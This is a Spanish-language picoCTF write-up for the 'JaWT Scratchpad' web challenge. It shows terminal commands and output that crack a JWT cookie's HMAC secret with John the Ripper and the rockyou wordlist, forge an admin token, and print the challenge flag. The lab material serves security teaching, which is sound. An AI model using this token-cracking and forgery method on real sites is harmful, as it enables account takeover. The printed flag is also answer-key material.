 ## Objetivo
Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/61864/` or http://jupiter.challenges.picoctf.org:61864
## Solución
- ##### Se obtiene la cookie de la página web JaWT. Después se crea un archivo hasheado y se crackeará la contraseña con el archivo "rockyou.txt".
```
┌──(kali㉿kali)-[~]
└─$ nano cookie
                                                                                                                  
┌──(kali㉿kali)-[~]
└─$ cat cookie
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoibWlndWVsIn0.N4hIwNhPMz6JxK4p59Hm3USJKz9px5JsqEBnEZTuJvE
                                                                                                                  
┌──(kali㉿kali)-[~]
└─$ ls /usr/share/wordlists                      
amass  dirbuster   fasttrack.txt  john.lst  metasploit  rockyou.txt  wfuzz
dirb   dnsmap.txt  fern-wifi      legion    nmap.lst    sqlmap.txt   wifite.txt
                                                                                                                  
┌──(kali㉿kali)-[~]
└─$ sudo apt install john                        
john is already the newest version (1.9.0-Jumbo-1+git20211102-0kali7+b1).
The following packages were automatically installed and are no longer required:
  libavfilter9      libndctl6      libre2-10        openjdk-17-jre           python3-pytzdata
  libdaxctl1        libplacebo338  libroc0.3        openjdk-17-jre-headless  rwho
  libgeos3.12.1t64  libpmem1       libsvtav1enc1d1  python3-diskcache        rwhod
  libjsoncpp25      libpostproc57  libu2f-udev      python3-mistune0         samba-ad-provision
  libjxl0.7         librav1e0      libx265-199      python3-pendulum         samba-dsdb-modules
Use 'sudo apt autoremove' to remove them.

Summary:
  Upgrading: 0, Installing: 0, Removing: 0, Not Upgrading: 0
                                                                                                                  
┌──(kali㉿kali)-[~]
└─$ john cookie -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 128/128 SSE2 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepico        (?)     
1g 0:00:00:03 DONE (2024-09-23 13:31) 0.2624g/s 1941Kp/s 1941Kc/s 1941KC/s iloverob4live345..ilovepatri
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

- ##### En la página JWT para hacer un Debugger de la cookie encriptada, se desencriptará para modificar lo siguiente:
``` javascript
HEADER
{
  "typ": "JWT",
  "alg": "HS256"
}

PAYLOAD
{
  "user": "miguel" //SE CAMBIARÁ ESTA PARTE POR "admin"
}

VERIFY SIGNATURE
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  *your-256-bit-secret* //EN ESTA PARTE SE INTRODUCIRÁ "ilovepico"
)
```

- ##### Copiaremos la nueva cookie y editaremos la del sitio JaWT, despúes de eso, obtendremos la bandera en la parte del scratchpad.
```
Flag: picoCTF{jawt_was_just_what_you_thought_1ca14548}
```
## Notas Adicionales
- JSON Web Token (JWT) es un estándar abierto (RFC7519) que define un modo ​compacto y ​autocontenido ​para transmitir información segura entre distintas partes utilizando objetos JSON. Una de las características principales de JWT es que esta información puede ser verificada porque es firmada digitalmente.
## Referencias
- [PicoCTF](https://play.picoctf.org)
- [PicoCTF Writeups](https://www.youtube.com/playlist?list=PLDo9DMLZyP6kTZ8Td37-LdbAx4-yNfHBl&authuser=0)